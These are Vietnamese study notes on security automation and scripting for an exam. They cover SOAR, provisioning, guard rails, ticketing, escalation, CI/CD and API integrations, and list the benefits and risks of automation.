

Do khối lượng công việc quá lớn

- Automations:
	- Sử dụng script làm nhiệm vụ lặp đi lặp lại
	- Vd: tự động quét virus khi một file được tải xuống
- Orchestration:
	- Liên kết nhiều tác vụ automation lại thành một workflow phức tạp
	- _Ví dụ:_ Khi phát hiện IP độc hại -> Tự động chặn trên Firewall -> Tự động tạo ticket cho IT -> Tự động gửi email báo cáo.

### SOAR (Security orchestration, automation, and response) {#2bc7b0eb61a48071bbd3d3aca8c61751}

- Là nền tảng công nghệ giúp thực hiện điều phối bảo mật
- Lợi ích: làm giàu dữ liệu về mối đe dọa, phản ứng nhanh với sự cố (incident response) và giảm thiểu công sức thủ công

### Scripting languages {#2bc7b0eb61a480e8ae5ce9de4d0c634d}

- **Python:** Đa năng, mạnh về phân tích dữ liệu và tương tác API.
- **Bash:** Dùng cho hệ thống Linux/Unix.
- **PowerShell:** Dùng cho hệ thống Windows.

## Use case of automation and scripting {#2bc7b0eb61a480f1816cfa8201e565af}

- **User provisioning:** Tự động tạo/sửa/xóa tài khoản
	- Khi có nhân viên mới thì tự động tạo gán quyền, khi nghỉ thì xóa ngay lập tức
	- Vd: khi có nhân viên A, IT dept
		- Hệ thống HR tự động kích hoạt 1 script kết nối với active directory và tạo user, thêm vào nhóm IT-admin, tạo email công ty
- **Resource provisioning:** Tự động cấp phát máy chủ, tài nguyên mạng (Scaling).
	- Tự động tạo dựng hạ tầng (server, network, database) thông qua IaC, nó cũng bao gồm auto-scaling dựa trên nhu cầu sử dụng
	- **Ví dụ thực tế:**
		- **IaC:** Developer cần một môi trường để test. Họ chạy một file script `Terraform`. Script này tự động yêu cầu AWS tạo ra 1 máy ảo EC2, 1 Database RDS và cấu hình mạng VPC trong vòng 5 phút.
		- **Scaling:** Website bán hàng vào ngày Black Friday lượng truy cập tăng vọt. Hệ thống "Auto-scaling" phát hiện CPU server cao > 80% -> Tự động bật thêm 5 server mới để chịu tải. Khi hết khách, tự động tắt bớt để tiết kiệm tiền.
- **Guard rails:** Các chốt chặn tự động để đảm bảo tuân thủ chính sách (ví dụ: tự động chặn việc tạo server nếu không bật mã hóa).
	- **Ví dụ thực tế:**
		- Công ty có chính sách: "Mọi dữ liệu lưu trữ đám mây (S3 Bucket) KHÔNG được phép để chế độ Public".
		- Một lập trình viên lỡ tay cấu hình một S3 Bucket là "Public Access".
		- Hệ thống Guard Rail (ví dụ: AWS Config hoặc Open Policy Agent) phát hiện ra cấu hình này ngay khi lập trình viên bấm "Create" -> Hệ thống **tự động từ chối** lệnh tạo đó hoặc tự động sửa lại thành "Private" và gửi cảnh báo cho sếp.
- **Security groups:** Tự động quản lý thành viên nhóm bảo mật, tự động thêm/bớt địa chỉ IP hoặc port vào allow list
	- Vd: khi tính năng auto-scaling tạo ra 5 server mới, các server này có IP mới
		- Nếu làm thủ công, admin phải vào tường lửa gõ từng lệnh
		- Automation: script tự động lấy ip của 5 server mới và cập nhật vào security group của load balancer, cho phép lưu lượng qua ngay lập tức
- **Ticket creation:** Tự động tạo vé hỗ trợ khi có sự cố.
	- Kết nối hệ thống giám sát với hệ thống quản lý công việc. Khi máy phát hiện lỗi, nó tự động viết báo cáo sự cố thay cho con người
	- Vd: SIEM phát hiện một máy tính bị nhiễm malware
		- Thay vì chi hiện dòng log đỏ trên màn hình, SIEM tự động gọi API đến hệ thống Jira hoặc serviceNow và tạo một ticket “sự cố bảo mật mức cao - PC01 nhiễm virus”, gán cho nhân viên A và kèm theo log chi tiết.
- **Escalation:** Tự động báo cáo lên cấp trên nếu sự cố nghiêm trọng.
	- Vd: một ticker server sập được tạo ra lúc 2:00 sáng
	- Script theo dõi ticket này, nếu 15 phút mà không có nhân viên kĩ thuật nào bấm nhận việc, script sẽ tự động kích hoạt quy trình escalation: gọi điện thoại trực tiếp (qua paperDuty) cho quản lý IT đang ở nhà để dựng dậy xử lý → chính là escalation scripting
- **Enabling/disabling services:** Tự động tắt các dịch vụ không cần thiết hoặc bị lỗi.
	- VD: disabling - định kỳ quét server, nếu server nào mở telnet, nó sẽ systemctl stop telnet
	- Enabling: script định  kiểm tra website. Nếu thấy dịch vụ web (apache/nginx) bị chết, script tự động chạy systemctl restart apache để khởi động lại web ngay lập tức
- **CI/CD:** Tự động build và test phần mềm - viết code → tự động gộp code → tự động build → tự động test → tự động đưa lên môi trường chạy thật
- **Integrations and APIs:** Kết nối các phần mềm với nhau.

	**Ví dụ thực tế:**

	- Bạn dùng công cụ quét lỗ hổng **Nessus** và phần mềm chat **Slack**.
	- Bạn viết một script tích hợp: Khi Nessus quét xong mạng công ty -> Nó tự động tổng hợp kết quả -> Gọi API của Slack -> Gửi một tin nhắn vào nhóm chat `#Security-Team`: _"Đã quét xong. Phát hiện 3 lỗi nghiêm trọng. Link báo cáo tại đây..."_.

## Benefits of Automation and Scripting {#2bc7b0eb61a480ddbc2cda5652cee2cb}

- **Benefits (Lợi ích):**
	- **Efficiency:** Hiệu quả, tiết kiệm thời gian.
	- **Enforcing baselines:** Đảm bảo mọi hệ thống đều tuân thủ cấu hình chuẩn.
	- **Scaling:** Mở rộng quy mô nhanh chóng và an toàn.
	- **Retaining employees:** Giảm việc nhàm chán cho nhân viên, giúp họ tập trung việc quan trọng hơn.
	- **Reducing reaction time:** Phản ứng với sự cố nhanh hơn con người.
- **Other Considerations (Hạn chế/Rủi ro):**
	- **Complexity:** Script càng phức tạp càng khó quản lý và cần kỹ năng cao.
	- **Cost:** Chi phí đầu tư ban đầu lớn.
	- **Single point of failure:** Nếu script trung tâm bị lỗi, toàn bộ quy trình tự động có thể sập.
	- **Technical debt:** Script viết vội, thiếu tài liệu sẽ trở thành "món nợ kỹ thuật" khó bảo trì sau này.

## Summary & Exam Essentials {#2bc7b0eb61a4807cbb74d352a5ba0638}

- **SDLC:** Cần tích hợp bảo mật vào mọi giai đoạn (Plan -&gt; Deploy).
- **Vulnerabilities:** Hiểu rõ Buffer Overflow, Injection, XSS, CSRF, SSRF.
- **Controls:** Input Validation là quan trọng nhất. WAF, Parameterized Queries là các công cụ hỗ trợ.
- **Secure Coding:** Code Signing, Code Review, quản lý bộ nhớ.
- **Automation:** Giúp tăng hiệu quả nhưng cần quản lý rủi ro đi kèm.
